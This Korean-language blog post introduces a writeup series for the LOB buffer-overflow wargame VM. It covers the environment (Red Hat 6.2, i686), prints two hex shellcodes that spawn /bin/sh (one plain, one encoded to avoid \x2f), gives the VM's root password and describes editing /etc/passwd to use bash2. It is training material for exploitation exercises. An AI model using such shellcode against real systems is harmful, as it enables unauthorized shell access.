 ```yaml
---
layout: single
title: "LOB Intro"
#description: ""
date: 2016-02-05 12:00:00 -0400
# modified: 
tags: 
- wargame
- writeup
- pwnable
- lob
comments: true
share: true
---
```


BOF의 OS의 종류와 버전은 LOB의 VM을 통해 Red Hat Linux 6.2라는 것을 알 수 있으며 리눅스 환경이므로 ELF 파일구조를 사용함과 어셈블리어가 at&t 문법임을 유추해 낼 수 있다. 그리고 아래와 같이 i686 아키텍처이므로 32bit 메모리를 사용함을 알 수 있다.

![arch]({{site.url}}{{site.baseurl}}/assets/images/2016-02-05-LOB-Intro/0.png)


LOB 풀이에 사용한 쉘코드는 다음과 같다.

```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80
```

25bytes shellcode(execve(“/bin/sh”) 사용)

```
\xd9\xc5\xd9\x74\x24\xf4\xb8\x15\xc3\x69\xd7\x5d\x29\xc9\xb1\x0b\x31\x45\x1a\x03\x45\x1a\x83\xc5\x04\xe2\xe0\xa9\x62\x8f\x93\x7c\x13\x47\x8e\xe3\x52\x70\xb8\xcc\x17\x17\x38\x7b\xf7\x85\x51\x15\x8e\xa9\xf3\x01\x98\x2d\xf3\xd1\xb6\x4f\x9a\xbf\xe7\xfc\x34\x40\xaf\x51\x4d\xa1\x82\xd6
```

/x2f가 없는 shellcode


그리고 LOB의 default shell(bash)의 버전이 낮아 /xff의 입력을 /x00으로 받아들이는 오류가 있으므로 bash2를 사용하도록 한다. root 권한으로 이를 한꺼번에 바꾸도록 한다. root의 패스워드는 hackerschoolbof이다. root로 로그인 후 /etc/passwd를 열어 bash를 bash2로 모두 치환해준다.

![bash2]({{site.url}}{{site.baseurl}}/assets/images/2016-02-05-LOB-Intro/1.png)


다음은 C언어의 stack frame structure이다.


![[memory map of a typical C ELF executable on x86]]({{site.url}}{{site.baseurl}}/assets/images/2016-02-05-LOB-Intro/2.png)